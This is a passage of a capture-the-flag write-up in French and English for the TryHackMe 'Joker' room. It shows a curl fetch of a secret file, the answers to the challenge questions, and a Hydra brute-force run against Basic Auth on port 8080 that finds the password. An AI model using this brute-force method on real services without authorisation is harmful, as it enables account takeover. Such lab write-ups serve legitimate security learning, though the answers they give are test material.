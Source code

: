 There is another file which reveals information of the backend, what is it?

L'autre fichier qui permet d'avoir des information sur le site est : phpinfo.php    

**When reading the secret file, We find with a conversation that seems contains at least two users and some keywords that can be intersting, what user do you think it is?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://joker.thm/secret.txt
Batman hits Joker.
Joker: "Bats you may be a rock but you won't break me." (Laughs!)
Batman: "I will break you with this rock. You made a mistake now."
Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."
Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
```

Le nom intéressant est : joker.  

**What port on this machine need to be authenticated by Basic Authentication Mechanism?**

![page1](./Task1-01.png)

On voit que le port 8080 a besoin d'identification.   

Réponse port : 8080   

**At this point we have one user and a url that needs to be aunthenticated, brute force it to get the password, what is that password?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hydra -l joker -P /usr/share/wordlists/rockyou.txt  -f joker.thm -s 8080 http-get 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-20 15:10:03
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://joker.thm:8080/
[8080][http-get] host: joker.thm   login: joker   password: hannah
[STATUS] attack finished for joker.thm (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-20 15:10:29
```
